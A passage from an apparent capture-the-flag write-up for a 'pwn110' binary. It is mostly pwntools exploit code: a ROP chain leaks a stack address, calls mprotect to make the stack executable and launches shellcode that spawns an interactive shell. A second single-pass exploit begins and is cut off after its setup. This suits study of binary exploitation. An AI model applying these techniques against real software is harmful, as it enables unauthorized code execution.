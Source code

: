```python
payload += p64(elf.symbols.main)

process.recvline_containsS("pwn me without libc", timeout=3)
print("Injecting malicious input (1/2)")
process.sendline(payload)
# Receive the leaked address of libc_stack_end
text = process.recvline()
libc_stack_end_address = u64(text.strip().ljust(8, b'\0'))

log.info(f'libc_stack_end address:  {hex(libc_stack_end_address)}')
mprotect_memory = libc_stack_end_address & 0xfffffffffffff000
log.info(f'mprotect_memory address: {hex(mprotect_memory)}')

# Load the stack protection bitmap
payload += p64(next(elf.search(asm('pop rdx; ret;'))))
payload += p64(0x7)  # PROT_READ|PROT_EXEC|PROT_WRITE
# Load the page size
payload += p64(next(elf.search(asm('pop rsi; ret;'))))
payload += p64(0x1000)  # Page size, i.e., 4096 bytes
# Load the stack address
payload += p64(next(elf.search(asm('pop rdi; ret;'))))
payload += p64(mprotect_memory)
# Call __mprotect to make the stack region the process uses
# executable.
# __mprotect uses the following parameters:
#  Address in rdi
#  Size    in rsi
#  Prot    in rdx
payload += p64(elf.symbols.__mprotect)
# "Jump" (return) to the stack, where a shellcode is waiting for us
payload += p64(next(elf.search(asm('push rsp; ret;'))))
# Shellcode. It can be executed now
payload += asm(shellcraft.sh())

process.recvline_containsS("pwn me without libc", timeout=3)
print("Injecting malicious input (2/2)")
process.sendline(payload)
process.clean()

process.interactive()
```

***Exploit 2***

We can achieve the same result only using ROP gadgets and a single buffer overflow iteration:

```python
#!/usr/bin/env python3
#
# Exploit: Buffer overflow ROP on non-PIE statically-linked binary,
# using mprotect() syscall to make the stack executable and inject a shellcode
# in the stack.
#
# This exploit does just one iteration, only using ROP gadgets to load the
# right parameters for mprotect(), make the stack excutable and jump to the
# shell code in the stack.


from pwn import *

context.update(arch="amd64", os="linux")

elf = ELF("./pwn110.pwn110")
process = process("./pwn110.pwn110")
```